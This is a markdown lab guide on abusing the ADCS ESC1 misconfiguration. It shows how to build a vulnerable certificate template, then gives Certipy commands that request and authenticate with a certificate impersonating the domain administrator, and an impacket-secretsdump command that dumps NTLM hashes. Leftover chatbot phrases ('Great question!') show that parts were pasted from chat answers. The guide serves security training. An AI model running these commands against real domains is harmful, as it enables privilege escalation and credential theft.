




# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 1 (ESC1) Abuse Guide

## Reference

- [Microsoft Defender for Identity: Securing AD CS](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/securing-ad-cs-microsoft-defender-for-identitys-sensor-unveiled/3980265)
- [ESC1 Attack - YouTube Demo](https://youtu.be/8L4Z9o5dtwc?si=Kn1fPUqrPp34gj9J)

---

## What is ADCS ESC1?

**ESC1 (Escalation #1)** is an attack path in Active Directory Certificate Services (ADCS) where a low-privileged user can request a certificate as a **privileged user (e.g., Domain Admin)** — without knowing their credentials.

The attacker exploits certificate templates that allow:
- Authenticated users to enroll
- Self-supplied subject fields (e.g., UPNs like administrator@domain.local)
- Client Authentication EKU
- No manual approval by a CA manager

---

## Lab Setup

- **Domain Controller (DC):** `dc-01.furious.local`
- **Domain:** `furious.local`
- **Certificate Authority:** `furious-DC01-FURIOUS5-CA`
- **Vulnerable Template:** `Vulnerable-ESC1`

---

## Create a Vulnerable ESC1 Template

### Step 1: Duplicate Template

1. Open **Certificate Templates Console**: `certtmpl.msc`
2. Right-click a user template > **Duplicate Template**
3. Name it something like `Vulnerable-ESC1`

### Step 2: Set Permissions

- **Security Tab**:
  - `Authenticated Users` ➤ ✅ **Enroll**

  - `Domain Users` ➤ ✅ **Full Control**


### Step 3: Allow User-Supplied Subject Name

- Go to the **Subject Name** tab
- Select: ✅ **Supply in the request**

---

### Step 4: Manager Approval

- Go to the **Issuance Requirements** tab  
- Make sure the checkbox for **"CA certificate manager approval"** is **unchecked** 

### Step 5: Publish the Template

1. Open **Certification Authority Console**: `certsrv.msc`
2. Right-click **Certificate Templates** ➤ **New** ➤ **Certificate Template to Issue**
3. Select `Vulnerable-ESC1` ➤ **OK**

---


#  Exploiting ESC1 Misconfiguration in Active Directory Certificate Services (ADCS)

**ESC1** is a misconfiguration in ADCS that allows a low-privileged user to escalate privileges by requesting a certificate that impersonates a high-privileged account (like a Domain Admin). This is possible when certain conditions in the certificate template are not properly secured.

---

##  Key Conditions for ESC1 Exploitation

### 1️⃣ Enrollment Rights for the User Group

- The **certificate template** must grant **enrollment rights** to a group that includes the user attempting the exploit.
- This allows the user to **request a certificate** from the Certificate Authority (CA).
- Without this permission, the user cannot proceed with the request.

> ✅ **ESC1 Condition #1:** Enroll permission is granted to low-privileged users (e.g., Authenticated Users or Domain Users)

---

### 2️⃣ Extended Key Usage (EKU): Client Authentication

- The certificate template must include the **Extended Key Usage** setting:  
  `Client Authentication` (`1.3.6.1.5.5.7.3.2`)
- This EKU enables the certificate to be used for **authenticating to domain systems**.
- It is essential for impersonating users and conducting privilege escalation attacks.

> ✅ **ESC1 Condition #2:** EKU contains **Client Authentication**

---

### 3️⃣ Enrollee Supplies Subject Set to True

- The template must allow the **enrollee (user) to supply the subject name**.
- This enables the attacker to **inject a Subject Alternative Name (SAN)**, such as a **User Principal Name (UPN)** of a privileged account.
- SANs are used to associate extra identities with the certificate.

> ✅ **ESC1 Condition #3:** `Supply in the request` is enabled, allowing UPN spoofing

---

### 4️⃣ No Manager Approval Required

- The certificate template must **not require manual approval** by a certificate manager.
- If no approval is required, any certificate request by a user is **automatically approved**.
- This removes any oversight and accelerates the exploitation process.

> ✅ **ESC1 Condition #4:** **CA Manager approval is NOT required**


---

##  Exploiting ESC1 with Certipy

### Step 1: Enumerate CA and Templates

```bash
certipy-ad find -u jack -p complex1@ -dc-ip 192.168.129.140
```

### Step 2: Request Certificate Impersonating Domain Admin

```bash
certipy-ad req -u 'jack@furious.local' -p 'complex1@' \
  -dc-ip 192.168.129.140 \
  -target furious.local \
  -ca furious-DC01-FURIOUS5-CA \
  -template Vulnerable-ESC1 \
  -upn administrator@furious.local
```

This will generate a `.pfx` file (certificate + private key) for `administrator@furious.local`.

### Step 3: Authenticate with the Certificate

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.129.140
```

---

### Optional: Dump Hashes Using Impacket

After authenticating as administrator using the `.pfx`:

```bash
impacket-secretsdump -just-dc-ntlm furious.local/administrator@192.168.129.140 \
  -hashes aad3b435b51404eeaad3b435b51404ee:f1c3f58541c936fd550482ec578f102e
```

---

Great question! Let’s break down **EKU** and **SAN**—two very important certificate concepts, especially in the context of **ADCS exploitation** like ESC1.

---

##  What is EKU (Extended Key Usage)?

**EKU** stands for **Extended Key Usage**.

It defines **what the certificate can be used for**. It's basically a **list of purposes** that the certificate is allowed to serve.

### Example EKU Values:
| EKU Purpose               | OID (Object Identifier)             | What it's for                                 |
|---------------------------|-------------------------------------|------------------------------------------------|
| **Client Authentication** | `1.3.6.1.5.5.7.3.2`                 | Used to authenticate users to services (e.g., logging into systems) |
| **Server Authentication** | `1.3.6.1.5.5.7.3.1`                 | Used to authenticate servers (e.g., HTTPS websites) |
| **Smart Card Logon**      | `1.3.6.1.4.1.311.20.2.2`            | Used for smart card-based logins |

> ✅ **For ESC1 attacks**, we specifically need `Client Authentication`, because it allows the certificate to be used for **user authentication** on the network (like Kerberos or LDAP auth).

---

##  What is SAN (Subject Alternative Name)?

**SAN** stands for **Subject Alternative Name**.

It’s a **field inside a certificate** that allows multiple identities (e.g., usernames, email addresses, domain names) to be associated with a single certificate.

###  Why SAN is important for ESC1:

In ESC1, if the certificate template allows "Supply in the request," then the attacker can **supply their own SAN**, for example:

```bash
-UPN administrator@domain.local
```

This tricks the CA into issuing a certificate that says the **attacker is the Domain Admin**, even though they’re not.

###  Common Uses of SAN:
| SAN Type     | Example                          | Purpose                                     |
|--------------|----------------------------------|---------------------------------------------|
| **DNS Name** | `www.example.com`                | Allows the certificate to secure multiple domain names |
| **IP Address** | `192.168.1.1`                  | Used for systems accessed directly by IP    |
| **Email Address** | `user@example.com`          | For secure email communication              |
| **User Principal Name (UPN)** | `user@domain.com` | Often used for authentication scenarios     |

---

### TL;DR

| Term | Purpose |
|------|---------|
| **EKU** | Defines **what the certificate can do** (e.g., client auth, code signing) |
| **SAN** | Defines **who or what the certificate is for** (e.g., domain names, email, IPs) |


Absolutely, let's expand on the meaning of the **Client Authentication EKU** and its role in digital certificates:

---


##  EKU: Client Authentication (`1.3.6.1.5.5.7.3.2`)

###  **Purpose**
The **Client Authentication EKU** allows a certificate to be used by a **client to prove its identity** to a server. This is primarily used in:

- **Mutual TLS (mTLS)**: Both the client and server present certificates to authenticate each other.
- **VPNs, Email clients, and APIs**: Where client identity needs to be confirmed securely.

---

##  How It Works

1. **Client initiates a connection** to a server over TLS.
2. The **server sends a certificate request** to the client.
3. The **client responds with its certificate** (with Client Authentication EKU).
4. The **server validates** that the certificate:
   - Is from a trusted CA
   - Is not expired or revoked
   - Contains the **Client Authentication EKU**
5. If valid, the **server grants access**.

---

